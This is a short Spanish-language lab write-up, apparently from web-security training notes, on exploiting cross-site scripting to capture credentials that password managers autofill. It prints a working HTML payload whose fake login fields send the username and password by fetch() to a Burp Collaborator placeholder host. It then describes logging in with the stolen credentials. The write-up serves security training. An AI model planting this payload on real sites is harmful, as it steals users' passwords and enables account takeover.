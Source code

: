 # Exploiting cross-site scripting to capture passwords

Hoy en dia muchos usuarios usan gestores de contraseñas. Es posible tomar ventaja de esto creando un input de contraseñas y leyendo sus contraseñas auto escritas.

Similar al lab anterior abrimos el collaborator y colocamos su payload en el siguiente script:

```text
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

Ahi le enviaremos al colaborator lo que escriba el gestor de contraseñas de la victima de forma automatica

![](../../../.gitbook/assets/imagen%20%28943%29.png)

Luego con eso podemos hacer log in.



